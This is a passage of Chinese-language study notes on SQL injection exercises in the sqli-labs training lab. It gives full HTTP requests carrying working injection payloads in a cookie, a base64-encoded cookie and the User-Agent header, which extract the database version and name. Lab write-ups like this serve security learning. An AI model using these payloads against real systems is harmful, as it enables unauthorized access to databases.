 SQL 注入点不止会出现在GET 参数或POST 参数中。注入点在Cookie 数据中，以sqli-labs-20 关为例子

```http
GET /sqli-labs/Less-20/index.php HTTP/1.1
Host: 10.4.7.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.4.7.128/sqli-labs/Less-20/
DNT: 1
Connection: close
Cookie: uname=Dumb' and 1=2 union select 1,version(),database() #
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```



## base64 注入

注入的参数需要进行base64 编码，以sqli-labs-22 关为例子

```http
GET /sqli-labs/Less-22/index.php HTTP/1.1
Host: 10.4.7.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.4.7.128/sqli-labs/Less-22/
DNT: 1
Connection: close
Cookie: uname=RHVtYiIgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSx2ZXJzaW9uKCksZGF0YWJhc2UoKSM=
Upgrade-Insecure-Requests: 1
```



##  User-Agent 注入

注入的参数在User-Agent 中，以sqli-labs-18 关为例子.

一般发生在插入语句，记录用户的登录来源。 要单引号凑对，不能注释

```http
POST /sqli-labs/Less-18/ HTTP/1.1
Host: 10.4.7.128
User-Agent: AJEST' and updatexml(1,concat(0x5e,(select database()),0x5e),1) and '1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.4.7.128
DNT: 1
Connection: close
Referer: http://10.4.7.128/sqli-labs/Less-18/
Upgrade-Insecure-Requests: 1

uname=Dumb&passwd=Dumb&submit=Submit
```
